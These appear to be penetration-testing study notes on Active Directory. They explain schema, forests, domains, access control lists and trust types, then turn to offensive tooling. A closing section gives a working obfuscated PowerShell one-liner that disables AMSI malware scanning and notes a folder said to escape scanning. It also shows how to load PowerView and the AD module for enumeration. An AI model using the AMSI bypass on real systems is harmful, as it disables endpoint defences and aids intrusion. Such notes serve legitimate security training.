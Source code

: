 # Active Directory

### Elements

* Schema: definition of an object and its properties
* Global catalog (DC): provides information about all objects in the directory
* Replication Service: synchronizes information about objects between all Domain Controllers
* Forest: a security boundary that includes several domains
* Domain: identified as a SID, contains several Organization Units
* Organization Unit (OU): the smallest container within a domain. Can be used to store users, groups or computers.

### Access control

Performed through a combination of token containing identity and privileges of user and security descriptors of the targeted object which include:

* SID: security identity of the owner of object
* DACL: discretionary ACL - access permissions of the client on the object
* SASL: system ACL - logging and audit policies by user
* ACE: access control entity - the single access rule that composes the list of rules used by DACL and SACL to manage accesses

### Trust

Link between two domains that allows objects to share information. Can occur between father/child or horizontally across the forest boundary.&#x20;

* One Way trust: users in the trusted domain can access resources on the trusting domain but the reverse is not true
* Bi-directional trust: users in mutually trusting forests can share and access to both domains
* External: bi-directional and non transitive trust between domains on different forests
* Default:  two-way transitive trust between father-child elements
* Forest: trust established between root elements of forest. Can be one or two ways, transitive or non transitive
* Shortcut: can be one or two way, used to ease communications within large structures

Bidirectional Default trusts can always be enumerated



### AMSI Bypass

Obfuscated strings to disable AMSI PowerShell protection

```
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```

### Including External Scripts

By storing PS1 scripts under C:\AD\Tools they will not be scanned&#x20;

#### PowerView

```
. .\PowerView.ps1
```

#### LDAP Module

```
Import-Module .\Microsoft\ActiveDirectory.Management.dll
Import-Module .\ActiveDirectory\ActiveDirectory.psdl
```
